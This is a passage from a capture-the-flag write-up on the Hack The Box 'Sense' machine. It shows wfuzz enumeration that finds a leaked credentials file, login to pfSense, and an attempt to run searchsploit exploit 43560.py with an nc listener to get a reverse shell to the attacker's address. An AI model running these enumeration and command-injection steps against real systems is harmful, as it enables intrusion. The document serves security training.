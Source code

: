 The web server and **CMS** are implemented using the **PHP** programming language, so with `wfuzz` I search for files with extensions that may exist on the server and it leaks a lot of information. If I access the **stats.php** file I am faced with a **pfSense** authentication panel, unfortunately the default credentials (**admin**:**pfsense**) do not work for me. As in my research I can't find much on how to bypass the **Login** form, I remember that I had already found a hidden **.txt** file on the server, so maybe there are more. Again I enumerate with `wfuzz` the web server but only for files with **.txt** extension and after a long time of waiting I find one in whose content are the credentials that allow me to access the **pfSense** dashboard.

> **[pfSense](https://www.pfsense.org/){:target="_blank"}** software is a free, open source customized distribution of **FreeBSD** specifically tailored for use as a firewall and router that is entirely managed via web interface. In addition to being a powerful, flexible firewalling and routing platform, it includes a long list of related features and a package system allowing further expandability without adding bloat and potential security vulnerabilities to the base distribution.

```bash
wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.60/FUZZ
wfuzz -c --hc=404 -L -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.60/FUZZ

wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,php-html-txt https://10.10.10.60/FUZZ.FUZ2Z

# Recommended by the community
wfuzz -c --hc=404 --hw=425 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.60/FUZZ.txt

# https://10.10.10.60/system-users.txt
```

<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The first thing I look for when entering the **pfSense Dashboard** is to search for its version and then with `searchsploit` I look for any available exploit. I download one on my machine that allows me to **[Inject Commands](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/){:target="_blank"}**, after finding the right version of `python` to run it I follow the steps to get a **Reverse Shell**, but after struggling for a while to get the script to work, due to problems with libraries, I decide to find another way to exploit the vulnerability.

```bash
searchsploit pfsense 2.1.3
searchsploit -m php/webapps/43560.py
mv 43560.py pfsense_exploit.py
python3 pfsense_exploit.py -h
python2 pfsense_exploit.py -h

nc -nlvp 443
python2 pfsense_exploit.py --rhost 10.10.10.60 --lhost 10.10.14.22 --lport 443 --username r---t --password pfSense
python3 pfsense_exploit.py --rhost 10.10.10.60 --lhost 10.10.14.22 --lport 443 --username r---t --password pfSense
# :(
```